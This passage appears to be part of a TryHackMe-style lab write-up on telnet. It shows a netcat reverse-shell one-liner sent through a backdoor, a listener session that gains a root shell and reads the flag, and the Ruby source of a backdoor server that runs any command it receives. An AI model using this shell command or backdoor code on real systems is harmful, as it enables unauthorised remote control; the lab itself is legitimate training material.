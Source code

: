 ```telnet
.RUN mkfifo /tmp/xoof; nc 10.18.1.77 4444 0</tmp/xoof | /bin/sh >/tmp/xoof 2>&1; rm /tmp/xoof
```
> ┌──(kali㉿kali)-[~/Downloads/telnet_learning]
└─$ nc -lvp 4444                    
listening on [any] 4444 ...
10.10.181.64: inverse host lookup failed: Unknown host
connect to [10.18.1.77] from (UNKNOWN) [10.10.181.64] 53772
whoami
root
ls
flag.txt
cat flag.txt
THM{y0u_g0t_th3_t3ln3t_fl4g}

Success! What is the contents of flag.txt? *THM{y0u_g0t_th3_t3ln3t_fl4g}*

```/home/optional
require 'socket'

server = TCPServer.new(8012)
counter = 0
begin
  while connection = server.accept
    connection.puts "SKIDY'S BACKDOOR. Type .HELP to view commands"
     

    while line = connection.gets
      break if line =~ /EXIT/  
      line.strip!
      if line == '.HELP'
        connection.puts ".HELP: View commands\n .RUN <command>: Execute commands\n.EXIT: Exit"
      end
      
      if line =~ /.RUN/
        cmd = line.split(" ")[1..line.length - 1].join(' ')
        system(cmd)
      end

    end
    connection.puts "Connection Closed\n"
    connection.close

  end
rescue Errno::ECONNRESET, Errno::EPIPE => e
  puts e.message
  retry
end

```

`.EXIT to close telnet`

###  Understanding FTP 
